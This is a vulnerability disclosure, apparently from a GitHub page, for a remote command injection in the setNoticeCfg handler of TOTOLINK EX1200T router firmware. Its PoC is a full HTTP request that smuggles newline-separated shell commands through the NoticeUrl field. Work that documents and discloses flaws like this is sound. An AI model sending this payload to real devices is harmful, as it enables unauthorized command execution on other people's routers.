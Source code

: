 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setNoticeCfg` of the file `lib/system.so` , we can control the`NoticeUrl` to attack.

![image-20211019162805076](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162805076.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setNoticeCfg",
"NoticeEnabled":"1",
"NoticeUrl":"1.1.1.1\nps>/web_cste/test1\necho",
"BtnName":"Click here to continue",
"WhiteListUrl1":"11",
"NoticeTimeoutVal":"120"
}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)
